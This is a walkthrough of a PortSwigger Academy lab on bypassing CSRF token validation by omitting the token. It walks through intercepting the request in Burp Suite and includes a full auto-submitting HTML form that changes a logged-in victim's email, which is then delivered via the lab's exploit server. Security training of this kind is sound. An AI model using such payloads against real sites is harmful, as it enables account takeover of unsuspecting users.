






[Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)
## Task
The email address change functionality in this lab is vulnerable to CSRF.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
We can log in to our account using the following credentials: `wiener:peter`
## Solution
Go to the task page



Log in to the `weiner` account



Change the email and intercept the request via `Burp Suite`. In this case, we can simply erase the token along with `csrf=` and send a request that will work.



After that, right-click and then `Engagement tools > Generate CSRF PoC`. Change the email in the request and copy the HTML code
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af1003f03c0af4d81a416e2008900ff.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testfordex1d&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



Go to `Exploit Server` and paste the HTML code into the `Body` field



Click `Store` and `Deliver exploit to victim`


